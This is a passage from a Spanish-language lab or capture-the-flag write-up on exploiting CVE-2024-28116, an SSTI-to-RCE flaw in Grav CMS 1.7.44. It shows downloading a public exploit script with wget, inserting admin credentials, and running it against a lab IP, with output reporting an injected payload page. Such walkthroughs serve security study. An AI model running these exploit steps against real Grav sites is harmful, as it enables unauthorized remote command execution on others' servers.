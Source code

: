 <h2 id="CVE">Abusando de Version Vulnerable del CMS Grav</h2>

Si buscamos un Exploit para la **versión 1.7.44 del CMS Grav**, encontraremos una vulnerabilidad que permite la **ejecución remota de comandos (RCE)** asignándole el **CVE-2024-28116**.

Resulta que es posible crear una platilla que sirve para ejecutar la vulnerabilidad **Server Side Template Injection (SSTI)** y también una **ejecución remota de comandos (RCE)**.

Tenemos unos cuantos Exploits de **GitHub** que podemos usar para explotar esta vulnerabilidad.

Vamos a probarlos.

<br>

<h3 id="Exploit1">Probando Exploit: Graver.py - Explotando un SSTI + RCE</h3>

Este script crea una página maliciosa que contiene código que ejecuta comandos dentro del **CMS Grav**, justo como un **SSTI + RCE**.

Aquí puedes encontrar el Exploit:
* <a href="https://github.com/akabe1/Graver" target="_blank">Repositorio de akabe1: Graver</a>

Descárgalo con **wget**:
```bash
wget https://raw.githubusercontent.com/akabe1/Graver/refs/heads/main/graver.py
```
El script necesita que lo modifiquemos para agregarle el usuario y contraseña.

Solamente entra y abajo de las librerías verás dónde agregar las credenciales:
```bash
##############################################
# Enter here your Grav CMS editor credentials
username = "admin"
password = "Perico69*****"
##############################################
```
Debe quedar así.

Ahora ejecuta el Exploit:
```bash
python3 graver.py -t http://192.168.100.10 -p 80
RCE payload injected, now visit the malicious page at: 'http://192.168.100.10:80/hacked_RY6V?do='
```
Parece que funcionó.

Comprobémoslo en la sección de páginas del dashboard del **CMS Grav** (recarga la página si es necesario):

<p align="center">
<img src="/assets/images/THL-writeup-webos/Captura9.png">
</p>
